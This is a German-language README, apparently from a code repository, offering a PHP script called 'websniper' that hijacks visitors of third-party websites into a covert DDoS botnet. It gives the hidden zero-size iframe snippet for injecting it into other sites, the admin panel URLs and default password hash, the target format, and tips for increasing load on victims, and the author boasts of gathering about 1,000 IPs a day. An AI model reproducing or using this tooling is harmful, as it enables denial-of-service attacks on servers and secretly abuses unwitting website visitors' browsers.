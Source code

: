 websniper
=========
hier mal ein script fuer schwebende botnetze. aehnlich wie man es von xss shells kennt, nur halt fuer ddos.
man kann dieses script bei anderen websiten einbinden und folglich dessen besucher fuer ddos missbrauchen.
es arbeitet mit dem img onload eventhandler und dem laden einer xml datei. beides zeigt, bei dem richtigen
browser, keine ladeaktion an, wenn also ein ddos angriff gestartet wird, dann zeigt der browser des opfers
nicht an das gerade etwas laed, es laeuft also komplett im hintergrund. welche methode bei welchem browser
eingesetzt wird entscheidet natuerlich das script selbst und individuell.

getestet hab ichs mit:
internet explorer
opera
firefox
safari
rekonq
google chrome

![](http://s7.directupload.net/images/140926/g9i8v93g.png)
das script hab ich speziell fuer ddos angriffe gebastelt, allerdings nutz ichs imo fuer ganz andere dinge XD
der eigentliche sinn des scripts war es heraus zu bekommen, ob man mit einem schwebenden botnet auch mit
halbwegs normalen besucherzahlen etwas anfangen kann. das ergebenis war das ich mir ein botnet mit ~1k ip's
pro tag aufgebaut hab... dazu haben schon wenige seiten (mit iframe versehen) ausgereicht. der traffic den man
bei einem ddos angriff mittels der website besucher verursachen konnte war ebenfalls vollkommen ausreichend Smile

dementsprechend pub ich das script jetzt einfach mal. vllt. brauchts ja jemand oder kann was damit anfangen...

eingefuegt wird das script mittels des getparameters "z". bsp:
Code:
```
http://website/web-sniper/web-sniper.php?z
```
code bsp:
Code:
```
<iframe src="http://website/web-sniper/web-sniper.php?z" width="0" height="0" style="opacity: 0;"></iframe>
```
in den adminpanel gelangt man wiederum ganz einfach mit dem bloßen aufruf der website, also:
Code:
```
http://website/web-sniper/web-sniper.php
```
oder auch mit dem getparam "root":
Code:
```
http://website/web-sniper/web-sniper.php?root
```
das standart passwort ist "test123". wer dieses aendern moechte kann das an folgender codezeile machen (md5):
Code:
```
$password="cc03e747a6afbbcbf8be7668acfebee5"; //standart: test123
```
moechte man ein ziel setzen dann gibt man dieses nicht direkt als normalen link sondern ohne http und mit angabe eines ports an.
also z.b. anstatt:
Code:
```
http://unnex.de/index.php?kontakt
```
setzt man:
Code:
```
unnex.de:80/index.php?kontakt
```
einen ordnerpfad muss man nicht angeben, kann man aber. manchmal kann es stark zur belastung des ziels beitragen einen link zu einer großen datei oder z.b. suchanfrage an zu geben...

neben dem input fuer die addr findet sich eine weiteres. in diesem legt man fest wieviele threads bzw. frames pro aufruf genutzt werden sollen. frame allein ist schon ein uebler angriff. jeder weitere waere vereinfacht gesagt, so als wuerde das opfer die seite nochmal und nochmal und nochmal usw... oeffnen. hier sollte man die grenzen seiner vics also schon etwas beruecksichtigen ;-)

...die reloadzeit fuer die opfer ist im standard auf 10min gesetzt.
